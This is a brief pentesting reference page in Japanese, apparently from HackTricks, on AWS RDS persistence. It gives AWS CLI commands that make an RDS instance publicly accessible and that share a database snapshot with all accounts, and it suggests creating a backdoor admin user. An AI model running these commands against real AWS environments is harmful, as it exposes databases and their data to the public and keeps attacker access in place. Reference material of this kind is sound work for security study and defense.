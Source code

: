 # AWS - RDS Persistence

{{#include ../../../banners/hacktricks-training.md}}

## RDS

詳細については、以下を確認してください：

{{#ref}}
../aws-services/aws-relational-database-rds-enum.md
{{#endref}}

### インスタンスを公開アクセス可能にする: `rds:ModifyDBInstance`

この権限を持つ攻撃者は、**既存のRDSインスタンスを変更して公開アクセスを有効にすることができます**。
```bash
aws rds modify-db-instance --db-instance-identifier target-instance --publicly-accessible --apply-immediately
```
### DB内に管理者ユーザーを作成する

攻撃者は**DB内にユーザーを作成する**ことができるため、マスターユーザーのパスワードが変更されても**データベースへのアクセスを失うことはありません**。

### スナップショットを公開する
```bash
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
```
{{#include ../../../banners/hacktricks-training.md}}

